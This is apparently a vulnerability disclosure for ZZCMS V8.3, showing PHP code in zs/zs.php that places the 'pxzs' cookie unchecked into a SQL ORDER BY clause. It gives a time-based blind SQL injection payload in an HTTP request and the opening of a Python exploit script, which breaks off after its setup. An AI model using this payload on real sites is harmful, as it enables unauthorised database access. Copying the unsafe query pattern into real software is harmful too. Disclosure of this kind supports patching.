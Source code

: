 # ZZCMS V8.3 SQL Injections

------

## 1. SQL Injection in zs/zs.php with parameter $px

the following code got $px from cookie without any checking bettween line 10  and 18

```php
if (isset($_GET["px"])){
$px=$_GET["px"];
	if ($px!='hit' && $px!='id' && $px!='sendtime'){
	$px="sendtime";
	}
setcookie("pxzs",$px,time()+3600*24*360);
}else{
$px=isset($_COOKIE['pxzs'])?$_COOKIE['pxzs']:"sendtime";
}
```

and $px used in the following code to query in mysql bettween 229 and 233

```php
$sql="select id,proname,prouse,img,shuxing_value,province,city,xiancheng,sendtime,editor,elite,userid,comane,qq,groupid,renzheng from zzcms_main where passed=1 ";
$sql=$sql.$sql2;
$sql=$sql." order by groupid desc,elite desc,".$px." desc limit $offset,$page_size";
//echo $sql;
$rs = query($sql); 
```

 so attack could make poc like:

```http
GET /zs/zs.php?province=&sj=999&b=&s=&menu2=&menu1= HTTP/1.1
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: pxzs=(SELECT(1)FROM(SELECT(SLEEP((3-length(database()))*3)))nFXY)


```

the python3 poc as following:

```python
#/usr/local/bin/python3
# -*-coding:utf-8-*-
 
import requests
import time

def zs_sqli(host):
    payloads = '-.@_abcdefghijklmnopqrstuvwxyz0123456789{}'
     
    result = ""

    headers = {"Host": host,
               "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.115 Safari/537.36",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding": "gzip, deflate",
               "Connection": "keep-alive",
               }
    cookies = {"bdshare_firstime":"", "PHPSESSID":"", "UserName":"", "PassWord":""}
    url = "http://%s/zs/zs.php?province=&sj=999&b=&s=&menu2=&menu1=" % host
    #proxies = {"http":"http://127.0.0.1:8080"}
    proxies = ""
```